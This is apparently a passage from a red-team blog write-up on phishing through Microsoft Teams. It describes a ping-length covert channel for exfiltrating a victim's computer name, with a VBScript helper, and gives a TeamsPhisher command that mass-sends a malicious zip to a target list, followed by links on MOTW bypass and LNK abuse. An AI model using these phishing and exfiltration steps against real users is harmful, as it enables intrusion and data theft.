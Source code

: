 
Function StrToByteArray(str)
    Dim i, byteArray()
    ReDim byteArray(Len(str) - 1)

    For i = 1 To Len(str)
        byteArray(i - 1) = AscB(Mid(str, i, 1))
    Next

    StrToByteArray = byteArray

End Function
```

The end goal of this script is to extract the computer name  (to identify who got phished) and encode it to Base64 then take every letter and it's ASCII value, the ASCII value will then be inserted inside the ping command as the length of the data section of the ping.
On the attacker machine we will have a program taking the length of the data and coverting it to the original message.

---

### [Automation Tests using TeamPhisher](#automation-tests-using-teamphisher)

we installed the following packages with pip ```
pip3 install msal```
```pip3 install colorama ```

Using the account associated with the Microsoft business license it is possible to insert a list of targets(targets.txt), a message(message.txt) and the malicious file as an attachment(bilancio.zip).

**POC**

```shell
python3 teamsphisher.py -u [REDACTED].onmicrosoft.com -p '[REDACTED]' -l targets.txt -a /home/kali/Desktop/bilancio.zip -m message.txt --log
```

2. This is the **attacker Teams pov**:

*Teams on browser*

![pov sender 1.png](https://raw.githubusercontent.com/LaRancion/blog/master/images/pov_sender_1.png)

[^1]: [Teams Official disclose Research](https://labs.jumpsec.com/advisory-idor-in-microsoft-teams-allows-for-external-tenants-to-introduce-malware/)
[^2]: [Manual bugs/exploitations](https://posts.inthecyber.com/leveraging-microsoft-teams-for-initial-access-42beb07f12c4)
[^3]: [Basic tool](https://github.com/sse-secure-systems/TeamsEnum)
[^4]: [audit logs in microsoft teams](https://learn.microsoft.com/en-us/microsoft-365/compliance/audit-teams-audit-log-events?view=o365-worldwide)
[^5]: [Guide3](https://badoption.eu/blog/2023/06/30/teams3.html)
[^6]: [Guide2](https://badoption.eu/blog/2023/06/22/teams2.html)
[^7]: [queries article](https://www.linkedin.com/pulse/defending-against-teamsphisher-attack-microsoft-365-defender-lim?utm_source=share&utm_medium=member_ios&utm_campaign=share_via)
[^8]: [lolbas](https://lolbas-project.github.io/lolbas/Binaries/Syncappvpublishingserver/)
[^9]: [MOTW bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)
[^10]: [MOTW bypass on zip](https://breakdev.org/zip-motw-bug-analysis/)
[^11]: [abusing lnk](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
[^12]: [Useful Red Team Info ITA](https://roccosicilia.com/)